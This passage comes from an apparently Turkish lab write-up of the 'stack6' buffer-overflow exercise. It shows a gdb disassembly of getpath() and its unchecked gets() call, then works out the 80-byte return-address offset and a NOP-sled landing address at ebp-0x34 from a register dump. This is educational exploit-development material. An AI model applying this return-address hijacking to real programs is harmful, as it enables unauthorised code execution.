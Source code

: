 ```bash
0x080484a4 <getpath+32>:	lea    eax,[ebp-0x4c]
0x080484a7 <getpath+35>:	mov    DWORD PTR [esp],eax
0x080484aa <getpath+38>:	call   0x8048380 <gets@plt>
0x080484af <getpath+43>:	mov    eax,DWORD PTR [ebp+0x4]
0x080484b2 <getpath+46>:	mov    DWORD PTR [ebp-0xc],eax
0x080484b5 <getpath+49>:	mov    eax,DWORD PTR [ebp-0xc]
0x080484b8 <getpath+52>:	and    eax,0xbf000000
0x080484bd <getpath+57>:	cmp    eax,0xbf000000
0x080484c2 <getpath+62>:	jne    0x80484e4 <getpath+96>
0x080484c4 <getpath+64>:	mov    eax,0x80485e4
0x080484c9 <getpath+69>:	mov    edx,DWORD PTR [ebp-0xc]
0x080484cc <getpath+72>:	mov    DWORD PTR [esp+0x4],edx
0x080484d0 <getpath+76>:	mov    DWORD PTR [esp],eax
0x080484d3 <getpath+79>:	call   0x80483c0 <printf@plt>
0x080484d8 <getpath+84>:	mov    DWORD PTR [esp],0x1
0x080484df <getpath+91>:	call   0x80483a0 <_exit@plt>
0x080484e4 <getpath+96>:	mov    eax,0x80485f0
0x080484e9 <getpath+101>:	lea    edx,[ebp-0x4c]
0x080484ec <getpath+104>:	mov    DWORD PTR [esp+0x4],edx
0x080484f0 <getpath+108>:	mov    DWORD PTR [esp],eax
0x080484f3 <getpath+111>:	call   0x80483c0 <printf@plt>
0x080484f8 <getpath+116>:	leave  
0x080484f9 <getpath+117>:	ret    
End of assembler dump.
(gdb) 
```
Burada dikkat ederseniz stacke yer ayırma işini yaparken şu satırlar çalışıyor:
```
0x080484a4 <getpath+32>:	lea    eax,[ebp-0x4c]
0x080484a7 <getpath+35>:	mov    DWORD PTR [esp],eax
0x080484aa <getpath+38>:	call   0x8048380 <gets@plt>
```
eax registerine `ebp-0x4c` adresi atanıyor, ardından bu değer esp registerine atanıyor. Ebp'den itibaren 0x4c yani 76 bytelık yer ayırıyor.Zaten 4 byte da ebp nin kendisi olduğu için 80  bytetan sonra return adresine yazmıştık hatırlarsanız.
Biz nop dolduracağımız bölümün ortasına zıplamaya çalışalım. 36 tane nop koymuştuk yani hedefimiz esp + 18(0x12) oluyor. Esp=ebp-0x4c ise hedefimizi `ebp - 0x4c + 0x12 = ebp - 0x34` oluyor. ebp değerini bulmak için fonksiyon başındaki mov ebp,esp komutundan sonra breakpoint koyup bakabiliriz.
```
(gdb) b*0x08048487
Breakpoint 2 at 0x8048487: file stack6/stack6.c, line 7.
(gdb) c
Continuing.

Breakpoint 2, 0x08048487 in getpath () at stack6/stack6.c:7
7	in stack6/stack6.c
(gdb) i r
eax            0xbffff714	-1073744108
ecx            0x28e953e2	686380002
edx            0x1	1
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff658	0xbffff658
ebp            0xbffff658	0xbffff658
esi            0x0	0
edi            0x0	0
eip            0x8048487	0x8048487 <getpath+3>
eflags         0x200286	[ PF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```